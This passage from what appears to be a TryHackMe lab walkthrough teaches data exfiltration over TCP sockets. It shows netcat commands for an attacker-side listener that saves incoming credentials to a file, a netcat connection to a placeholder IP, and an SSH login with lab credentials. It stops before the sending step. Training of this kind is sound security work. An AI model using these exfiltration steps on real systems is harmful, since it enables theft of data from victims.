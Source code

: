 
![](../images/Pasted%20image%2020250516174541.png)

# Exfiltration using TCP socket
----

This task shows how to exfiltrate data over TCP using data encoding. Using the TCP socket is one of the data exfiltration techniques that an attacker may use in a non-secured environment where they know there are no network-based security products. If we are in a well-secured environment, then this kind of exfiltration is not recommended. This exfiltration type is easy to detect because we rely on non-standard protocols.

Besides the TCP socket, we will also use various other techniques, including data encoding and archiving. One of the benefits of this technique is that it encodes the data during transmission and makes it harder to examine.

The following diagram explains how traditional communications over TCP work. If two machines want to communicate, then one of them has to listen and wait for the incoming traffic. It is similar to how two people talk and communicate, where one of them is listening, and the other person is speaking. 

![Connection over TCP/port](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/9931b598f5757bbdfb74004a2a43fe16.png)  

The diagram shows that two hosts communicate over TCP on port 1337 in the following steps:

1. The first machine is listening over TCP on port **1337**
2. The other machine connects to the port specified in step 1. For example, **nc 1.2.3.4 1337**
3. The first machine establishes the connection
4. Finally, the sending and receiving data starts. For example, the attacker sends commands and receives results.

Communication over TCP requires two machines, one victim and one attacker machine, to transfer data. Let's use our network environment to practice sending data over TCP. To establish communication over TCP, we require two machines: the victim1.thm.com machine is the victim and the JumpBox, jump.thm.com, is the attacker's machine.

First, we need to prepare a listener on the **JumpBox** on a port you specify. In our case, we choose port 8080.  

Listening on portTCP/8080 in the JumpBox  

```markup
thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
```

From the previous command, we used the nc command to receive data on port 8080. Then, once we receive the data, we store it in the /tmp/ directory and call it task4-creds.data as a filename.

Now let's connect to our victim machine that contains the data that needs to be transmitted using the following credential: thm:tryhackme. Note that to connect to the victim1 from the JumpBox, we can use the internal domain name as follows,


```markup
thm@jump-box$ ssh thm@victim1.thm.com
```
